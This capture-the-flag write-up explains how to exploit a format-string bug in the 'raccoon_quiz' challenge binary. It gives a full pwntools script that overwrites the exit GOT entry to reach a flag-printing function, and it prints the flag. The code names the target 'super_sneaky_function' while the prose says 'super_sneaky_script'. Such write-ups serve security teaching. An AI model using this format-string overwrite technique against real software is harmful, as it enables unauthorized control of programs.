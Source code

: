 # raccoon_quiz
## by Alexander Marx
### Decompilation
When we decompile the source code there are a couple things we need to notice. The first is that the entirety of the program is run in the function ```raccoon_quiz``` meaning that our vulnerability will be there. Looking at it we see that it asks questions and prompts for input, and then when you answer all the question correctly, it asks for your name and then prints back "Good job [your name]". However it just uses ```printf``` to print the exact thing that you enter. That means that this program is vulnerable to format strings. The second thing is that there is a function called ```super_sneaky_script``` which prints out the flag. This means that to get the flag we have to use a format string to redirect the program flow to run the ```super_sneaky_script``` function.

### Exploitation
First we want to run the command ```pwn checksec raccoon_quiz``` to get all the binary security features. When we run this we learn that only NX is enabled meaning that the addresses of the functions like ```super_sneaky_script``` will not change each time we run the program. To pwn this program we are going to want to overwrite a Global Offset Table (GOT) entry so that when that specific GOT function is called it calls the ```super_sneaky_script``` function instead. To do this we are going to need four things. The first is a GOT function that is called for the first time after our vulnerable ```printf``` statement, the second is the GOT address of that function, the third is the address of the ```super_sneaky_script``` function, and the fourth is our payload that uses format strings plus the above information to redirect program flow to our target function.

The first three parts are pretty simple since only NX is enabled. To accomplish the first we simply have to look at the decompiled code. After our vulnerable ```printf``` function there are only two GOT function calls. The first is ```puts``` and the second is ```exit```. Since ```puts``` has been called before, our only true option is ```exit```. Now we need to get the address of that function and the address of ```super_sneaky_script```. To do that we simply have to run the following code:
```python
e = ELF("./raccoon_quiz")
addr = e.symbols["super_sneaky_function"]
exitGOT = e.got['exit']
print(hex(addr))
print(hex(exitGOT))
```
This will print out the addresses of both the functions we need, ```super_sneaky_script``` first and ```exit``` second.

Now we have to develop the payload. To do this we will be using the special characters ```%x``` and ```%n```. ```%x``` prints out a hexadecimal value and ```%n``` stores the number of characters that comes before it in a variable. Since we will not be specifying variables we can use these to interact with the stack. The general process we will be doing is to do this is to input our ```exit``` address as well as a number of ```%x``` characters so that we can determine the exact location of that address. Then we will specify that location with a ```%n``` and input the number of characters equal to the address of ```super_sneaky_script``` before that ```%n```. This will replace the address of ```exit``` in the GOT with the address of ```super_sneaky_script``` so that when ```exit``` is called in ```raccoon_quiz``` it runs ```super_sneaky_script``` instead of ```exit```. To develop the payload follow these steps. First run
```python
exitaddr = 0x602050
payload = b""
payload += b"%x " * 100
payload += b"A" * (512 - len(payload) - 16)
payload += p64(exitaddr)
```
Then in the console output count from where the exitaddr was printed to where the string of all A's start. The value I got was 32. Subtract that from 100 to get the location of the exitaddr (68). Then change the payload code to this
```python
flagaddr = 0x400747
exitaddr = 0x602050
payload = b""
payload += bytes("%{}x".format(0x747), 'utf-8')
payload += b"%68$hn"
payload += b"A" * (512 - len(payload) - 16)
payload += p64(exitaddr)
```
The first part of the payload enters the number of characters equal to the address of ```super_sneaky_script```. The second enters the location of our exitaddr using ```%n```. The third part fills the buffer we are entering in and the fourth adds the enters the address of ```exit```. When entered this will cause ```super_sneaky_script``` to run. Note that I only enter 0x747 characters before the ```%n``` and I use ```%hn``` instead. This is because the top half of the address is not necessary.
### Full Python Code
```python
from pwn import *

e = ELF("./raccoon_quiz")
addr = e.symbols["super_sneaky_function"]
print(hex(addr))

exitGOT = e.got['exit']
print(hex(exitGOT))
#p = remote("chal.ctf-league.osusec.org", 4816)
p = process("./raccoon_quiz")

p.recv()
p.sendline(b"A")
p.recv()
p.sendline(b"B")
p.recv()
p.sendline(b"A")
p.recvuntil(b"leaderboards!")

flagaddr = 0x400747
exitaddr = 0x602050
payload = b""
payload += bytes("%{}x".format(0x747), 'utf-8')
payload += b"%68$hn"
payload += b"A" * (512 - len(payload) - 16)
payload += p64(exitaddr)

p.sendline(payload)
p.recv()
output = p.recv()
print(output)
p.interactive()
```
### Flag
```osu{tr4a5h_pr0gr4mm1ng_in_4_tr4sh_g4m3}```
